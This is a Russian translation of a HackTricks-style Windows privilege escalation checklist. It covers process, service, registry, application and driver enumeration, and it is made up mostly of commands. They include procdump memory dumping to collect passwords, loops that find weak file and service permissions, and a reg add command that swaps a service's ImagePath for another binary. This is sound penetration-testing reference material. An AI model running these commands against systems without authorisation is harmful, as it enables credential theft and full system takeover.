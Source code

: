 # Запущенные процессы

## Права доступа к файлам и папкам

Прежде всего, список процессов **проверяет наличие паролей внутри командной строки процесса** . Проверьте, можете ли вы **перезаписать какой-либо исполняемый двоичный файл** или у вас есть права на запись в двоичную папку для использования возможных атак [Dll Hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

```
Tasklist /SVC #List processes running and services

tasklist /v /fi "username eq system" #Filter "system" processes

#With allowed Usernames

Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize

#Without usernames

Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id
```

Всегда проверяйте , нет ли запущенных *электронных/цефовых/хромовых отладчиков* , вы можете злоупотреблять ими для повышения привилегий.

#### Проверка разрешений бинарников процессов

```
for /f "tokens=2 delims='='" %%x in ('wmic process list full^|find /i "executablepath"^|find /i /v "system32"^|find ":"') do (

for /f eol^=^"^ delims^=^" %%z in ('echo %%x') do (

icacls "%%z"

2>nul | findstr /i "(F) (M) (W) :\\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo.

)

)
```

#### Проверка разрешений папок бинарников процессов

```
for /f "tokens=2 delims='='" %%x in ('wmic process list full^|find /i "executablepath"^|find /i /v

"system32"^|find ":"') do for /f eol^=^"^ delims^=^" %%y in ('echo %%x') do (

icacls "%%~dpy\" 2>nul | findstr /i "(F) (M) (W) :\\" | findstr /i ":\\ everyone authenticated users

todos %username%" && echo.

)
```

## Добыча паролей памяти

```
procdump.exe -accepteula -ma <proc_name_tasklist>
```

## Небезопасные приложения с графическим интерфейсом

**Приложения, работающие как SYSTEM, могут позволить пользователю создавать CMD или просматривать каталоги.**

Пример: «Справка и поддержка Windows» (Windows + F1), найдите «командная строка», нажмите «Нажмите, чтобы открыть командную строку».

## Слабые разрешения для исполняемых файлов сервисов

**Проверьте, можете ли вы изменить двоичный файл, который выполняется службой,** или есть ли у вас **права на запись в папку** , в которой находится двоичный файл ( [**захват DLL**](/windows-hardening/windows-local-privilege-escalation/dll-hijacking) ) **.** Вы можете получить каждый двоичный файл, выполняемый службой, с помощью **wmic** (не в system32) и проверить свои разрешения с помощью **icacls** :

```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Вы также можете использовать **sc** и **icacls** :

```
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

## Разрешения на изменение реестра служб

Вы должны проверить, можете ли вы изменить реестр какой-либо службы. Вы можете **проверить** свои **разрешения** в **реестре служб,** выполнив:

```
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Проверьте, есть ли у **аутентифицированных пользователей** или **NT AUTHORITY\INTERACTIVE** полный контроль. В этом случае вы можете изменить двоичный файл, который будет выполняться службой.

Чтобы изменить путь исполняемого файла:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

# Приложения

## Установленные приложения

Проверьте **права доступа к двоичным файлам** (возможно, вы сможете перезаписать один из них и повысить привилегии) и к папкам 

```
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

## Разрешения на запись

Проверьте, можете ли вы изменить какой-либо файл конфигурации, чтобы прочитать какой-то специальный файл, или можете ли вы изменить какой-либо двоичный файл, который будет выполняться учетной записью администратора (плановые задачи).

Способ найти слабые права доступа к папкам/файлам в системе:

```
accesschk.exe /accepteula 
# Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\
# Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
accesschk.exe -uwdqs "Everyone" c:\*.*
```

```
icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"
```

```
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
```

## Драйверы

Ищите возможные **сторонние странные/уязвимые** драйверы

```
driverquery
driverquery.exe /fo table
driverquery /SI
```


# Links
- [Dll Hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)
- [Инспектор узлов/нарушение отладки CEF](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)